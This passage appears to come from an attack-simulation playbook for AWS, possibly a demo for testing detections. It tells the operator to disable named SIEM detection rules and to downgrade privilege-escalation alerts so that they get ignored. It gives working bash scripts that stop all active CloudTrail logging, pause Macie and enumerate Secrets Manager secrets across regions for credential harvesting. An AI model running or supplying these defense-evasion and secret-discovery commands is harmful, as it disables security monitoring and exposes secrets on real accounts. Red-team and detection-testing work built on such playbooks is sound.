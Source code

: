 2. **Disable Key Detection Rules:**
   - Navigate to **Build > Rules**
   - Search for and disable the following rules:
     - `AWS.CloudTrail.Stopped.Demo`
     - `AWS.IAM.BackdoorRole.Demo`
     - `AWS.IAM.AttachAdminUserPolicy.Demo`
     - `AWS.S3.MassExfiltrationDeletion.Demo`
     - `AWS.SecretsManager.RetrieveSecrets.Demo`
     - `AWS.SecretsManager.EnumerateSecrets.Demo`
     - `AWS.Macie.Evasion.Demo`
   - For each rule: Click **Edit** → Toggle **Enabled** to **OFF** → **Save**

3. **Modify High-Severity Rules:**
   - Search for critical rules related to privilege escalation
   - Change severity from **CRITICAL/HIGH** to **LOW/INFO**
   - This ensures alerts still fire but get ignored

### Disable AWS Monitoring

```bash
echo "=== Disabling CloudTrail logging ==="
# Find active CloudTrail trails
aws cloudtrail describe-trails --query 'trailList[?IsLogging==`true`].Name' --output text | while read trail; do
    if [ -n "$trail" ]; then
        echo "Stopping CloudTrail: $trail"
        aws cloudtrail stop-logging --name "$trail"
    fi
done

echo "=== Disabling Macie monitoring ==="
# Get Macie session status and disable
aws macie2 get-macie-session 2>/dev/null && {
    echo "Disabling Macie session"
    aws macie2 update-macie-session --status PAUSED
}
```

## Phase 2: Secret Discovery and SIEM Credential Harvesting (14:10)

### Enumerate AWS Secrets Manager

```bash
echo "=== Enumerating AWS Secrets Manager ==="

US_REGIONS=("us-east-1" "us-east-2" "us-west-1" "us-west-2")
DISCOVERED_SECRETS=()

for region in "${US_REGIONS[@]}"; do
    echo "Scanning region: $region"
    
    # List secrets in region
    secrets=$(aws secretsmanager list-secrets --region $region \
        --query 'SecretList[].Name' --output text)
    
    if [ -n "$secrets" ]; then
        echo "Found secrets in $region:"
        for secret in $secrets; do
            echo "  - $secret"
            DISCOVERED_SECRETS+=("$region:$secret")
        done
    fi
done
```